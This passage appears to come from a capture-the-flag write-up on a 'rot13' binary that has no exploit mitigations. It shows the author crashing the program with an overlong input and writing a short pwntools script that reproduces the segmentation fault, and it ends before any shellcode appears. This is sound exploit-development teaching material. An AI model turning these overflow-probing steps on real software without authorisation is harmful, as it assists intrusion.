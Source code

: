 No anti-exploit mitigations are enabled.  This means if we find a buffer overflow, we can put shellcode directly on the stack and just need to find a way to jump to it.

Let's just try running the binary.

```
$ ./rot13 
Enter the string you would like me to rot13!
AAAAAA
NNNNNN
```

Ok, not a whole lot to this binary.  The first obvious thing to try is for an overflow.

```
$ ./rot13 
Enter the string you would like me to rot13!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
Segmentation fault (core dumped)
```

## Building/Debugging the payload

Let's use the [python script above](skeleton.py) to reproduce this crash with pwntools.

Let's build a payload something like this:
```python
p = getp()

payload = ''
payload += 'A'*110

p.sendline(payload)

p.interactive()
```

And when we run it:

```
$ ./solver.py
[+] Starting local process '../distFiles/rot13': pid 11280
[*] Switching to interactive mode
Enter the string you would like me to rot13!
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
[*] Got EOF while reading in interactive
$ 
[*] Process '../distFiles/rot13' stopped with exit code -11 (SIGSEGV) (pid 11280)
[*] Got EOF while sending in interactive
```

Great, we have reproduced the crash with pwntools!
